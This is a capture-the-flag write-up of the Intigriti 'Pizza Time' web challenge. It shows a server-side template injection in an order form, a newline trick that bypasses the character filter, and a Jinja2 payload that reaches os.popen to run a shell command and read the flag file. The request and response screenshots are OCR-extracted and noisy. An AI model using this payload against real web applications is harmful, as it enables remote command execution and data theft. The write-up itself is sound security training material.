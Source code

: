 # Pizza Time
> It's pizza time!! 🍕

## About the Challenge
We were given a website without the source code, and there is only one functionality on this website (we can place an order) and our input is reflected in the output.


[Image extracted text: [Image not found]]



[Image extracted text: [Image not found]]


## How to Solve?
Im assuming this website is vulnerable to SSTI. At first I can't input any special characters such as `$`, `[`, `]`, etc. But when I tried to use newline character or `\n`, suddenly the website didn't filter my input again.

Normal Input:

[Image extracted text: Send
Cancel
7 /"
Target:
Request
Response
Pretty
Raw
Hex
51
In
=
Pretty
Raw
Hex
Render
In
=
PosT
/order HTTP/2
HTTP/2
200
OK
2
Host
pizzatime. ctf. intigriti. io
2
Date:
Sun ,
19
Nov
2023
10:57:00
GMT
3 Content-Length:
93
3 Content-Type:
text/html;
charset-utf-8
Content-Type:
application/X-WWW-form-urlencoded
Content-Length:
35
5
5
Strict-Transport-Security:
max-age-15724800;
includeSubDomains
6
customer_name-k{7*7}}&pizza_name-Margheritaspizza_size-Small&
6
topping-Mushroomsasauce-Marinara
<p>
Invalid
characters
detected!
<[p>]


Bypass:

[Image extracted text: Request
Response
Pretty
Raw
Hex
3 In
=
Pretty
Raw
Hex
Render
In
PosT
/order
HTTP/2
HTTP/2
200
OK
2
Host:
pizzatime. ctf. intigriti. io
2
Date:
Sun,
19
Nov
2023
10:57:27
GMT
3 Content-Length:
95
3 Content-Type:
text/html;
charset-utf-8
Content-Type:
application/X-WWW-form-urlencoded
Content-Length:
99
5
5
Strict-Transport-Security: max-age-15724800 =
includeSubDomains
6
customer_name=
6
{{7*7}}epizza_name-Margheritafpizza_
size-Smalletopping-Mushrooms&
sauce-Marinara
<p>
Thank
you,
49
Your
order
has
been placed .
Final price
is
$9.72
<[pz
10]


And to obtain the flag, we need to escalate the SSTI to remote code execution. This is the final payload I used to read the flag

```
{{lipsum.__globals__.os.popen('cat$IFS/flag.txt').read()}}
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
0
In
=
Pretty
Raw
Hex
Render
51
In
=
POST
/order
HTTP/2
HTTP/2
200
OK
2
Host:
pizzatime. ctf. intigriti. io
2
Date:
Sun,
19
Nov
2023
10:59:26
GMT
3 Content-Length:
146
3 Content-Type:
text/html;
charset-utf-8
Content-Type:
application/X-WWW-form-urlencoded
Content-Length:
135
5
5
Strict-Transport-Security
max-age-15724800;
includeSubDomains
6
customer_name=
6
{{lipsum
~globals_
0S . popen ( ' catsIFS/ flag
txt' ).read ( ) }}&
pizza_name-Margheritalpizza_Size-Smallatopping-Mushroomsasauce=
<p>
Marinara
Thank
you,
INTIGRITI{dld_SOm3body_54y_plzz4_7lm3} !
Your
order
has
been
placed
Final
price
is
$9_
72
p>
10]


```
INTIGRITI{d1d_50m3b0dy_54y_p1zz4_71m3}
```